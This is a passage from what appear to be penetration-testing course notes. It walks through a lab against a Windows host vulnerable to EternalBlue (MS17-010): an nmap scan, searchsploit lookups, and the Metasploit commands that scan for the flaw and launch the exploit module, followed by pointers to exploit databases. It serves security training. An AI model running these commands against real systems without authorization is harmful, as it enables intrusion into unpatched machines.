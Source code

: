 ### [Metasploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit) <a href="#metasploit" id="metasploit"></a>

Focus on the techniques and the flow to detect vulnerabilities.

> 🔬 Home Lab based on a Windows 7/2008 R2 target vulnerable to EternalBlue SMB RCE. Check the[ Lab 2 here](../system-host-based-attack/windows-operating-system/smb.md)

```bash
sudo nmap -sS -sV <TARGET_IP>
```

```bash
searchsploit EternalBlue
searchsploit ms17-010
```

```bash
# Check the vulnerability with a scanner, before trying to exploit it
msfconsole

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <TARGET_IP>
run

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run  
```

***

## Searching for Exploits <a href="#searching-for-exploits" id="searching-for-exploits"></a>

Exploit code can be found online or inside locally-stored exploit database in pentest Linux distributions (`searchsploit`, MSF).

**Verifiable online sources**:

* [exploit-db.com](https://www.exploit-db.com/)
  * always check for the **Verified** column
  * use search filters
  * [Dorks - Google Hacking Database](https://www.exploit-db.com/google-hacking-database)
* [Rapid7 db](https://www.rapid7.com/db/)

> ❗ **Always pay attention at publicly available exploits. An exploit can be weaponized to attack the actual attacker system!**
>
> 📌 Analyze the exploit code behavior to ensure that it works as intended.

### [Searchsploit](https://www.exploit-db.com/searchsploit) <a href="#searchsploit" id="searchsploit"></a>
